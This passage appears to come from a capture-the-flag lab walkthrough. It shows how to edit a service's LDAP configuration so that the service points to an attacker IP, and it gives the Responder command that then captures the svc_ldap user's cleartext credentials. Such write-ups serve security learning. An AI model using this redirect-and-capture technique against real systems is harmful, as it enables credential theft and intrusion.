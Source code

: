 We can identify the hash as `bcrypt`, hashcat mode 3200, but even when running Hashcat on our host machine, it will take upwards of 10 hours to go through `rockyou`, so we'll continue examining the file.

Further down, we'll find the configuration for the LDAPS server that the service is attempting to access.

![](19.png)

This is perfect. It means that we can edit the file and configure it to reach out to our own machine and potentially capture a hash or cleartext credentials with Responder.

We can either replace the value or add another line to it with our own IP. We must keep in mind that Responder cannot run an LDAPS server when making the edit, so our line would look like this:

```xml
<value>ldap://10.10.16.3:389</value>
```

We can now start Responder on our attacking machine and hope the service will reach out to us.

```shell
responder -I tun0 -dwv 
```

If you experience an error with Responder (`Error starting TCP server on port 389, check permissions or other servers running.`), you can use the following command to find what process is running on that port and then use its PID to kill it.

```shell
sudo ss --tcp --udp --listen --numeric --process | grep 389
```

With Responder running, we can now go back to import the configuration, which will restart the application.

![](20.png)

As soon as that's completed, we will receive cleartext credentials in Responder for the `svc_ldap` user.

![](21.png)
### Alternative

Sometimes, there is more than one way to pwn a machine. We can accomplish the exact same thing by accessing the Configuration Editor instead and proceeding to add our own machine under the Connection menu.
